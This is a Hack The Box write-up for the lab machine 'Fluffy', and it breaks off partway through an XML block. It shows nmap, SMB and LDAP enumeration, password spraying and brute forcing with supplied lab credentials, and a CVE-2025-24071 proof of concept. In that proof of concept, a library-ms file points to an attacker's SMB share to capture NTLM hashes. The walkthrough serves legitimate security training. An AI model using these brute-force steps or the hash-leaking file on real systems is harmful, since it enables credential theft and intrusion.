



# Fluffy
[Room Badge](https://labs.hackthebox.com/achievement/machine/1390366/662)

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: `j.fleischman` / `J0elTHEM4n1990!`

## Enumeration
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ sudo nmap -p- 10.10.11.69
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 17:26 CEST
Nmap scan report for 10.10.11.69
Host is up (0.028s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49687/tcp open  unknown
49688/tcp open  unknown
49691/tcp open  unknown
49705/tcp open  unknown
49711/tcp open  unknown
49741/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 132.25 seconds

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ sudo nmap -p- 10.10.11.69 -sV -sC
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 17:39 CEST
Nmap scan report for 10.10.11.69
Host is up (0.028s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-18 22:41:38Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-18T22:43:08+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-09-18T22:43:07+00:00; +7h00m01s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-18T22:43:08+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-09-18T22:43:07+00:00; +7h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49741/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-18T22:42:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m01s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 227.64 seconds

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

### SMB (Ports 139, 445)
#### Enumerate users
Get userlist:
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc smb 10.10.11.69 -d 'FLUFFY' -u 'j.fleischman' -p 'J0elTHEM4n1990!' --users
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] FLUFFY\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-        
SMB         10.10.11.69     445    DC01             Administrator                 2025-04-17 15:45:01 0       Built-in account for administering the computer/domain
SMB         10.10.11.69     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.69     445    DC01             krbtgt                        2025-04-17 16:00:02 0       Key Distribution Center Service Account
SMB         10.10.11.69     445    DC01             ca_svc                        2025-04-17 16:07:50 0        
SMB         10.10.11.69     445    DC01             ldap_svc                      2025-04-17 16:17:00 0        
SMB         10.10.11.69     445    DC01             p.agila                       2025-04-18 14:37:08 0        
SMB         10.10.11.69     445    DC01             winrm_svc                     2025-05-18 00:51:16 0        
SMB         10.10.11.69     445    DC01             j.coffey                      2025-04-19 12:09:55 0        
SMB         10.10.11.69     445    DC01             j.fleischman                  2025-05-16 14:46:55 0        
SMB         10.10.11.69     445    DC01             [*] Enumerated 9 local users: FLUFFY

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

We found three service users:
- `ca_svc`
- `ldap_svc`
- `winrm_svc`
And two normal users:
- `j.coffey`
- `p.agila`

#### Brute forcing users
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ cat users.txt 
j.coffey
p.agila

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc smb 10.10.11.69 -d 'fluffy.htb' -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding 
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:123456 STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:123456 STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:12345 STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:12345 STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:123456789 STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:123456789 STATUS_LOGON_FAILURE 

```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ./kerbrute_linux_amd64 bruteuser -d fluffy.htb --dc 10.10.11.69 /usr/share/wordlists/rockyou.txt j.coffey

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/18/25 - Ronnie Flathers @ropnop

2025/09/18 18:23:25 >  Using KDC(s):
2025/09/18 18:23:25 >   10.10.11.69:88


```

```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc smb 10.10.11.69 -u users.txt -p users.txt --no-bruteforce --continue-on-success 
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:j.coffey STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:p.agila STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ca_svc:ca_svc STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ldap_svc:ldap_svc STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\winrm_svc:winrm_svc STATUS_LOGON_FAILURE 

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc smb 10.10.11.69 -u users.txt -p 'J0elTHEM4n1990!' --no-bruteforce --continue-on-success
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)                                                                                                             
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\j.coffey:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\p.agila:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ca_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\ldap_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 
SMB         10.10.11.69     445    DC01             [-] fluffy.htb\winrm_svc:J0elTHEM4n1990! STATUS_LOGON_FAILURE 

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

Not successful ...

#### Enumerate shares
Not why, but but `enum4linux` wasn't able to detect the reachable shares. NetExec or also SMBMap can detect those:
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc smb 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!' --shares
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE      
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share 

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$
```

```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ smbmap -H 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                               

[+] IP: 10.10.11.69:445 Name: 10.10.11.69               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ, WRITE
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections                                                                                                     

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$
```

```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ smbclient -U 'fluffy.htb/j.fleischman%J0elTHEM4n1990!' --list //10.10.11.69/ 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

We got one interesting share:
- `IT`

#### `IT` share
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ smbclient -U 'fluffy.htb/j.fleischman%J0elTHEM4n1990!' //10.10.11.69/IT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 19 23:19:22 2025
  ..                                  D        0  Fri Sep 19 23:19:22 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 17:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 17:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 17:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 17:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 16:31:07 2025

                5842943 blocks of size 4096. 1722719 blocks available
smb: \> 
smb: \> get Everything-1.4.1.1026.x64.zip
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (716.4 KiloBytes/sec) (average 716.4 KiloBytes/sec)
smb: \> get KeePass-2.58.zip
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (1819.6 KiloBytes/sec) (average 1168.7 KiloBytes/sec)
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (965.0 KiloBytes/sec) (average 1160.8 KiloBytes/sec)
smb: \> 
```

We find some software in specific versions (`Everything-1.4.1.1026` & `KeePass-2.58`) and a PDF document on the share. The versions are outdated, but there is nothing interesting here yet. But we should keep this in mind.

More interesting is the PDF document. It contains a list of vulnerabilities, that have to be patched:



Looking up the critical ones, we got the following information:
- CVE-2025-24996: External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
- CVE-2025-24071: Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.

For the latter one I found a promising PoC: https://github.com/Marcejr117/CVE-2025-24071_PoC

### LDAP (Port 389, 636)
#### NetExec
No ldap descriptions to find:
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ nxc ldap 10.10.11.69 -d 'FLUFFY' -u 'j.fleischman' -p 'J0elTHEM4n1990!' -M get-desc-users       
[*] Initializing LDAP protocol database
LDAP        10.10.11.69     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
LDAP        10.10.11.69     389    DC01             [+] FLUFFY\j.fleischman:J0elTHEM4n1990! 
GET-DESC... 10.10.11.69     389    DC01             [+] Found following users: 
GET-DESC... 10.10.11.69     389    DC01             User: Administrator description: Built-in account for administering the computer/domain                                                                                                                           
GET-DESC... 10.10.11.69     389    DC01             User: Guest description: Built-in account for guest access to the computer/domain                                                                                                                                 
GET-DESC... 10.10.11.69     389    DC01             User: krbtgt description: Key Distribution Center Service Account

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

#### ldapdomaindump
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ ldapdomaindump 10.10.11.69 -u 'FLUFFY\j.fleischman' -p 'J0elTHEM4n1990!'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

If we take a look at the domain users, we can find the groups. `j.coffey` and `p.agila` are in the `Service Account Managers` group. Maybe that will be useful. The other groups seem normal. Also, there a no unusual flags.

| Domain users                  |                               |               |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |                                                                                                                                                                                        |                   |                   |                   |                                                    |                   |      |                                                          |
| ----------------------------- | ----------------------------- | ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------- | ----------------- | ----------------- | -------------------------------------------------- | ----------------- | ---- | -------------------------------------------------------- |
| CN                            | name                          | SAM Name      | Member of groups                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Primary group                                                                                                                                                                          | Created on        | Changed on        | lastLogon         | Flags                                              | pwdLastSet        | SID  | description                                              |
| Joel Fleischman               | Joel Fleischman               | j.fleischman  |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/19/25 12:11:41 | 09/18/25 17:31:42 | 09/18/25 20:12:49 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 05/16/25 14:46:55 | 1606 |                                                          |
| John Coffey                   | John Coffey                   | j.coffey      | [Service Account Managers](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Service_Account_Managers "CN=Service Account Managers,CN=Users,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/19/25 12:09:55 | 04/19/25 12:09:55 | 01/01/01 00:00:00 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 04/19/25 12:09:55 | 1605 |                                                          |
| winrm service                 | winrm service                 | winrm_svc     | [Service Accounts](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Service_Accounts "CN=Service Accounts,CN=Users,DC=fluffy,DC=htb"), [Remote Management Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Remote_Management_Users "CN=Remote Management Users,CN=Builtin,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/19/25 11:51:39 | 09/18/25 18:29:19 | 09/18/25 18:29:19 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 05/18/25 00:51:16 | 1603 |                                                          |
| Prometheus Agila              | Prometheus Agila              | p.agila       | [Service Account Managers](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Service_Account_Managers "CN=Service Account Managers,CN=Users,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/18/25 14:37:08 | 09/18/25 17:31:22 | 09/18/25 17:31:22 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 04/18/25 14:37:08 | 1601 |                                                          |
| ldap service                  | ldap service                  | ldap_svc      | [Service Accounts](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Service_Accounts "CN=Service Accounts,CN=Users,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/17/25 16:17:00 | 09/18/25 17:39:34 | 01/01/01 00:00:00 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 04/17/25 16:17:00 | 1104 |                                                          |
| certificate authority service | certificate authority service | ca_svc        | [Service Accounts](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Service_Accounts "CN=Service Accounts,CN=Users,DC=fluffy,DC=htb"), [Cert Publishers](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Cert_Publishers "CN=Cert Publishers,CN=Users,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/17/25 16:07:50 | 09/18/25 19:15:55 | 09/18/25 18:37:05 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 04/17/25 16:07:50 | 1103 |                                                          |
| krbtgt                        | krbtgt                        | krbtgt        | [Denied RODC Password Replication Group](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Denied_RODC_Password_Replication_Group "CN=Denied RODC Password Replication Group,CN=Users,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/17/25 16:00:02 | 04/17/25 16:44:28 | 01/01/01 00:00:00 | ACCOUNT_DISABLED, NORMAL_ACCOUNT                   | 04/17/25 16:00:02 | 502  | Key Distribution Center Service Account                  |
| Guest                         | Guest                         | Guest         | [Guests](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Guests "CN=Guests,CN=Builtin,DC=fluffy,DC=htb")                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | [Domain Guests](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Guests "CN=Domain Guests,CN=Users,DC=fluffy,DC=htb") | 04/17/25 15:59:25 | 09/18/25 21:57:26 | 01/01/01 00:00:00 | PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD | 01/01/01 00:00:00 | 501  | Built-in account for guest access to the computer/domain |
| Administrator                 | Administrator                 | Administrator | [Group Policy Creator Owners](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Group_Policy_Creator_Owners "CN=Group Policy Creator Owners,CN=Users,DC=fluffy,DC=htb"), [Domain Admins](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Admins "CN=Domain Admins,CN=Users,DC=fluffy,DC=htb"), [Enterprise Admins](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Enterprise_Admins "CN=Enterprise Admins,CN=Users,DC=fluffy,DC=htb"), [Schema Admins](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Schema_Admins "CN=Schema Admins,CN=Users,DC=fluffy,DC=htb"), [Administrators](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Administrators "CN=Administrators,CN=Builtin,DC=fluffy,DC=htb") | [Domain Users](file:///home/kali/Desktop/ctf-writeups/hackthebox/Machines/Fluffy/restricted/domain_users_by_group.html#cn_Domain_Users "CN=Domain Users,CN=Users,DC=fluffy,DC=htb")    | 04/17/25 15:59:25 | 09/18/25 17:30:56 | 09/18/25 18:42:20 | NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD                 | 04/17/25 15:45:01 | 500  | Built-in account for administering the computer/domain   |

We can also get some more information about the system itself:

|CN|SAM Name|DNS Hostname|Operating System|Service Pack|OS Version|lastLogon|Flags|Created on|SID|description|
|---|---|---|---|---|---|---|---|---|---|---|
|DC01|DC01$|DC01.fluffy.htb|Windows Server 2019 Standard||10.0 (17763)|09/18/25 18:30:25|SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION|04/17/25 16:00:02|1000||

### WinRM (Port 5985)
No access yet:
```
┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ evil-winrm -i 10.10.11.69 -u j.fleischman -p 'J0elTHEM4n1990!'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1

┌──(kali㉿kali)-[~/…/hackthebox/Machines/Fluffy/restricted]
└─$ 
```

## Exploitation
The [exploit](https://github.com/Marcejr117/CVE-2025-24071_PoC) creates a ZIP file containing a `library-ms` file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.161\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
